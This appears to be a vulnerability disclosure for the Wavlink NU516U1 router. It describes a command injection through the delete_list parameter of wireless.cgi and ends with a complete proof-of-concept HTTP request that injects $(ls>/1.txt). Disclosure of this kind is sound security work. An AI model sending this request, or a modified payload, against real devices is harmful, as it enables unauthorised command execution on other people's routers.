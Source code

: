 # Wavlink NU516 DeleteMac
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the delete_list parameter in the sub_402D1C function of the file wireless.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.

![](images/1.png)

Setting the value of the page parameter to DeleteMac will call the sub_402D1C function.

![](images/2.png)

In the sub_402D1C function, the value of the delete_list parameter is obtained via a post request.

![](images/3.png)

The value of the delete_list parameter is passed to the v15 variable via the sprintf function.

![](images/26.png)

The v15 variable is passed into the sub_405314 function, followed by the byte_41BCB4 variable, which is ultimately passed as a parameter into the system function.

![](images/4.png)

![](images/5.png)

### POC
```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=303373432
Connection: keep-alive

page=DeleteMac&delete_list=$(ls>/1.txt)
```
